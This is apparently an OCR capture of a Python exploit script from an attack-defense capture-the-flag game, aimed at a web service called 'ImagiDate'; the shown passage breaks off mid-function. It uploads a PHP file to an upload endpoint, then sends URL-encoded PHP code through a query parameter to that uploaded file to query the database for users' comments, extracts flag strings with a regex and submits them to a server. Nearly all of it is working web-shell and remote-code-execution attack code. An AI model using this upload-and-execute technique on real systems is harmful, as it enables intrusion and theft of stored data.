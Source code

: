 ```python
    url = f"http://{ip}:8080/upload.php"
    files = {
        "image": open("image.php", "rb")
    }
    response = session.post(url, files=files, timeout=3)

def exploit_image(ip, session, attack_data, username_hash):
    usernames = []

    for attack in attack_data.keys():
        data = attack_data[attack]
        for key in data.keys():
            usernames.append(data[key][0].split(' ')[1])

    username_payload_body = "','".join(usernames)
    username_payload = "'" + username_payload_body + "'"

    exploit = f"""
        include ('../../config.php');               

        $stmt = $conn->prepare("SELECT comment_text FROM comments AS c 
                    INNER JOIN users as u ON (u.id = c.user_id) 
                    WHERE u.username IN ({username_payload})");
        $stmt->execute();
        $result = $stmt->get_result();
        $res = [];
        while ($row = $result->fetch_assoc()) {
            $res[] = $row['comment_text'];
        }
        $stmt->close();

        var_dump($res); 
    """

    urlencoded_exploit = urllib.parse.quote(exploit)

    res = session.get(f"http://{ip}:8080/uploads/{username_hash}/image.php?bh={urlencoded_exploit}", timeout=3)
    data = res.text

    pattern = r'ENO[A-Za-z0-9+\/=]{48}'
    flags = re.findall(pattern, data)

    return flags

def send_lines_to_server(ip, port, lines):
    try:
        connection = remote(ip, port)
        for line in lines:
            connection.sendline(line)
            response = connection.recvline()
            print(f"Received: {response.decode('utf-8').strip()}")
        connection.close()
    except Exception as e:
        print(f"An error occurred: {e}")

def exploit():
    attack_data, ips = get_data("ImagiDate")
    session = requests.Session()
    flags = []

    for ip in ips:
        print(f"Exploiting {ip}")
```